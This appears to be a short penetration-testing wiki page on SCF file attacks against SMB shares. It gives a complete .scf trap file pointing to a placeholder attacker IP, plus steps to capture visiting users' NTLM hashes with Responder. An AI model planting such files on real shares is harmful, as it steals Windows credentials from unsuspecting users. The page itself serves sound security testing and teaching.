

# SMB

## SCF File Attacks

A way to get hash is to use SCF file. If you have access to a writable share in a server you can upload a trap like this with the .scf extension :&#x20;

```
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

By replacing the X by your IP address.

And then, launch a Responder on your IP, and if the victim visit the share with your file, Windows will try to download the the Icon file and send to you the user hash :&#x20;

<figure><figcaption></figcaption></figure>


### References

* [https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)
